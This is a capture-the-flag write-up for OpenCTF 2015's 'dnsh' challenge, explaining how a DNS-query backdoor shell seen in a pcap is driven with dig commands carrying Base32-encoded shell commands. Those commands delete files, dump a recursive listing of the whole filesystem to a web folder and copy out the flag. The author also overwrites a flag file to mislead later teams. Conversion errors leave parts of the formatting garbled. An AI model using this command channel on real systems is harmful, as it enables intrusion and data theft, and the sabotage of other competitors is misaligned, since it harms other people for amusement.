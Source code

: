 ```yaml
---
title: "OpenCTF 2015 - dnsh (botnet,pwnable 100) Writeup"
slug: "openctf-2015-dnsh-botnetpwnable-100-writeup"
date: "2015-08-12 09:10:23.834843"
author_name: "reidb"
author_email: "reid.borsuk@gmail.com"
draft: false
toc: false
images:
---
```


Hint:

> dnsh 100 --- Our IDS picked up this CnC traffic - please ANALyze it - 172.16.18.20/dnsh-985199bc2d4d732db28f8ba1ccfc6702

The provided pcap contains a HTTP request that results in a 404, a bunch of weird DNS queries, followed by the previously 404 request succeeding. Brute force decoding reveals that the DNS queries are a back door shell. The DNS queries are of the form:

"System Message: ERROR/3 (<string>:, line 7)"
Content block expected for the "code" directive; none found.

{language=python}
~~~~~~~~
.. code:: {Base32_encoded_command}.{Hex_representation_of_MD5_of_Base32_encded_command}.goatse.cx

~~~~~~~~

Decoding the queries in the pcap shows that the webserver files are in ~/www/files/:

{language=python}
~~~~~~~~
cp /var/www/html/*.swf ~/.
mv *.swf ~/www/files/.
~~~~~~~~

A very quick and dirty script to push commands to the target server was written by Javantea:

"System Message: ERROR/3 (<string>:, line 18)"
Error in "code" directive:
maximum 1 argument(s) allowed, 11 supplied.

{language=python}
~~~~~~~~
.. code:: dig @10.10.53.53 <base32 string>.$(echo -n <base32 string> |md5sum |head -c 32).goatse.cx

~~~~~~~~

For instance, to run [rm ~/www/files/n*], a necessary step to remove all of our flag files after the challenge is completed, you can run the following command:

"System Message: ERROR/3 (<string>:, line 22)"
Error in "code" directive:
maximum 1 argument(s) allowed, 9 supplied.

{language=python}
~~~~~~~~
.. code:: dig @10.10.53.53 OJWSA7RPO53XOL3GNFWGK4ZPNYVA.$(echo -n OJWSA7RPO53XOL3GNFWGK4ZPNYVA |md5sum |head -c 32).goatse.cx

~~~~~~~~

Only a small amount of trouble is caused by the length limitations in DNS queries. Unfortunately the flag doesn't seem to be in any obvious locations near CWD, so instead the whole hard drive is scrubbed:

"System Message: ERROR/3 (<string>:, line 26)"
Error in "code" directive:
maximum 1 argument(s) allowed, 5 supplied.

{language=python}
~~~~~~~~
.. code:: ls -alR / > www/files/neg9.txt

~~~~~~~~

The flag was then found at /var/www/.hide/ctf_flag.txt. At this point we started hitting length limitations in our DNS queries, so a slightly creative command was written to compress it:

"System Message: ERROR/3 (<string>:, line 30)"
Error in "code" directive:
maximum 1 argument(s) allowed, 3 supplied.

{language=python}
~~~~~~~~
.. code:: cp /var/w*/.h*/c*.txt www/files/n

~~~~~~~~

Requesting the n document revealed the key:

"System Message: ERROR/3 (<string>:, line 34)"
Content block expected for the "code" directive; none found.

{language=python}
~~~~~~~~
.. code:: s0m3thing_Cl3veR_ab0u7_b0tn3ts_g03s_her3

~~~~~~~~

This was followed by some light trolling to mess with any teams after us:

"System Message: ERROR/3 (<string>:, line 38)"
Error in "code" directive:
maximum 1 argument(s) allowed, 4 supplied.

{language=python}
~~~~~~~~
.. code:: echo "th3_c@t_is_#1" > flag.txt
~~~~~~~~
